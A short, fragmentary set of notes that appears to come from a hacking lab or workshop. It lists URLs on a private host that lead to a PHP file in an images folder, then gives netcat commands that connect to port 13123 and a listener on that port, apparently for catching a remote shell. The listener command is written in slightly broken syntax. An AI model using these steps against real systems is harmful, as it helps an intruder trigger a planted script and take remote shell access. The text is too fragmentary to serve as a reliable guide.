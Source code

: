 http://192.168.128.49/workshop1/

http://192.168.128.49/workshop1/images/

http://192.168.128.49/workshop1/images/tonipm.php
Press 'Go'.

```
nc 192.168.128.49 13123


nc 192.168.128.119 13123

192.168.128.119
```


nc -l -v -p port 13123